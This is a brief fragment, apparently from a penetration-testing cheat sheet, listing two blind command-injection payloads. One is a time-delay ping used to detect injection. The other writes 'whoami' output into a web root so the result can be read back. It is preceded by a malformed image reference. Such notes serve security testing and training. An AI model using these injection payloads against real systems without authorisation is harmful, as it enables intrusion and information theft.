 `ping -c 10 127.0.0.1 &` - time delayed to check blind command injection
`whoami>/var/www/html/whoami.txt` - possible info retrieve with blind command injection